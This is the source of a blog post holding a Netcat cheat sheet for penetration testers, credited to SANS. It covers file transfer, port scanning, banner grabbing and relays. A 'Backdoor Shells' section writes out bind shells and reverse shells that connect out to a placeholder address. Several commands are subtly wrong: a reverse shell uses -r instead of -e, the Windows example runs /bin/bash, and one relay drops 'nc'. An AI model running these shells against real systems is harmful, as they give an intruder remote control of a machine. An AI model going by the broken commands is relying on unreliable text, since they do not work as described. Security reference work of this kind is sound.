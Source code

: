 ```yaml
---
layout: post
title: "Netcat Cheat Sheet"
date: 2016-05-22 22:12:33 -0700
categories: netcat, pentest
---
```

[Netcat][netcat-link] is considered to be the TCP/IP swiss army knife and is capable of writing data across the network. Its ability to create a connection to almost anything makes it an easy to use utility that is part of any infosec professionals toolbox. This cheat sheet provides tips and tricks for Netcat on both Linux and Unix.

All credit for putting together this cheat sheet goes to Ed Skoudis and [SANS][sans-link]

### Fundamentals

#### Netcat client
{% highlight bash %}
nc [TargetIPaddr] [port]
{% endhighlight %}
Connect to an arbitrary port [port] at IP Address [TargetIPaddr]

#### Netcat listener
{% highlight bash %}
nc -l -p [LocalPort]
{% endhighlight %}
Create a Netcat listener on arbitrary local port [LocalPort]
###
---

### File Transfer

#### Push a file from client to listener
{% highlight bash %}
nc -l -p [LocalPort] > [outfile]
{% endhighlight %}
Listen on [localPort], store results in [outfile]

{% highlight bash %}
nc -w3 [TargetIPaddr] [port] < [infile]
{% endhighlight %}
Push [infile] to [TargetIPaddr] on [port]

#### Pull file from listener back to client
{% highlight bash %}
nc -l -p [LocalPort] < [infile]
{% endhighlight %}
Listen on [LocalPort], prep to push [infile]

{% highlight bash %}
nc -w3 [TargetIPaddr] [port] > [outfile]
{% endhighlight %}
Connect to [TargetIPaddr] on [port] and retrieve [outfile]

---

### TCP Port Scanner

#### Port scan an IP Address
{% highlight bash %}
nc -v -n -z -w1 [TargetIPaddr] [start_port]-[end_port]
{% endhighlight %}
Attempt to connect to each port in a range from [end_port] to [start_port] on IP Address
[TargetIPaddr] running verbosely (-v on Linux, -vv on Windows), not resolving names (-n), without
sending any data (-z), and waiting no more than 1 second for a connection to occur (-w1)

The randomized ports (-r) switch can be used to choose port numbers randomly in the range

---

### TCP Banner Grabber

#### Grab the banner of TCP services running on an IP address from Linux
{% highlight bash %}
echo "" | nc -v -n -w1 [TargetIPaddr] [start_port]-[end_port]
{% endhighlight %}
Attempt to connect to each port in a range form [end_port] to [start_port] on IP Address
[TargetIPaddr] running verbosely (-v), not resolving names (-n), and waiting no more than 1 second
for a connection to occur (-w1). Then send a blank string to the open port and print out any banner
received in response

Add -r to randomize destination ports within the range

Add -p [port] to specify a source port

---

### Backdoor Shells

#### Listening backdoor shell on Linux
{% highlight bash %}
nc -l -p [LocalPort] -e /bin/bash
{% endhighlight %}

#### Listening backdoor shell on Windows
{% highlight bash %}
nc -l -p [LocalPort] -e cmd.exe
{% endhighlight %}

Create a shell on a local port [LocalPort] that can then be accessed using a fundamental
Netcat client

#### Reverse backdoor shell on Linux
{% highlight bash %}
nc [YourIPaddr] [port] -r /bin/bash
{% endhighlight %}

#### Reverse backdoor shell on Windows
{% highlight bash %}
nc [YourIPaddr] [port] -e /bin/bash
{% endhighlight %}

Create a reverse shell that will attempt to connect to [YourIPaddr] on a local [port]. This shell can then be captured on local port [port]. This shell can then be captured using a fundamental netcat listener

---

### Netcat Relays on Linux
To begin, create a FIFO (named pipe) called backpipe:
{% highlight bash %}
cd /tmp
mknod backpipe p
{% endhighlight %}

#### Listener-to-Client Relay
{% highlight bash %}
nc -l -p [LocalPort] 0<backpipe | nc [TargetIPaddr] [port] | tee backpipe
{% endhighlight %}

Create a relay that sends packets from the local port [LocalPort] to a Netcat
client connected to [TargerIPaddr] on port [port]

#### Listener-to-Listener Relay
{% highlight bash %}
nc -l -p [LocalPort_1] 0<backpipe | nc -l -p [LocalPort_2] | tee backpipe
{% endhighlight %}

Create a relay that sends packets from any connection on [LocalPort_1] to any
connection on [LocalPort_2]

#### Client-to-Client Relay
{% highlight bash %}
nc [PreviousHopIPaddr] [port] 0<backpipe | [NextHopIPaddr] [port2] | tee backpipe
{% endhighlight %}

Create a relay that sends packets from the connection to [PreviousHopIPaddr] on port [port] to a Netcat client connected to [NextHopIPaddr] on port [port2]

---

### Netcat Relays on Windows
To begin, enter a temporary directory where we will create .bat files:
{% highlight bash %}
cd c:\temp
{% endhighlight %}

#### Listener-to-Client Relay
{% highlight bash %}
echo nc [TargetIPaddr] [port] > relay.bat
nc -l -p [LocalPort] -e relay.bat
{% endhighlight %}

Create a relay that sends packets from the local port [LocalPort] to a Netcat
Client connected to [TargetIPaddr] on port [port]

#### Listener-to-Listener Relay
{% highlight bash %}
echo nc -l -p [LocalPort_2] > relay.bat
nc -l -p [LocalPort_1] -e relay.bat
{% endhighlight %}

Create a relay that will send packets from any connection on [LocalPort_1] to
any connection on [LocalPort_2]

#### Client-to-Client Relay
{% highlight bash %}
echo nc [NextHopIPaddr] [port2] > relay.bat
nc [PreviosHopIPaddr] [port] -e relay.bat
{% endhighlight %}

Create a relay that will send packets from the connection to [PreviousHopIPaddr]
on port [port] to a Netcat Client connected to [NextHopIPaddr] on port [port2]

---

### Netcat Command Flags
{% highlight bash %}
nc [options] [TargetIPaddr] [ports(s)]
{% endhighlight %}

The [TargetIPaddr] is simply the other side's IP address or domain name. It is
required in client mode of course (because we have to tell the client where to
connect), and is optional in listen mode.

-l : Listen mode (default is client mode)

-L : Listen harder (supported only on Windows version of Netcat). This     option makes Netcat a persistent listener which starts listening again after a client disconnects

-u : UDP mode (default is TCP)

-p : Local port (In listen mode, this is the port listened on. In client mode, this is the source port for all packets sent)

-e : Program to execute after connection occurs, connecting STDIN and STDOUT to the program

-n : Don't perform DNS lookups on names of machines on the other side

-z : Zero-I/O mode (Don't send any data, just emit a packet without payload)

-wN : Timeout for connects, waits for N seconds after closure of STDIN. A Netcat listener with this option will wait for N seconds to make a connection. If the connection doesn't happen in that time, Netcat stops running.

-v : Be verbose, printing out messages on Standard Error, such as when a connection occurs

-vv : Be very verbose, printing even more details on Standard Error

[netcat-link]: https://en.wikipedia.org/wiki/Netcat
[sans-link]: https://www.sans.org/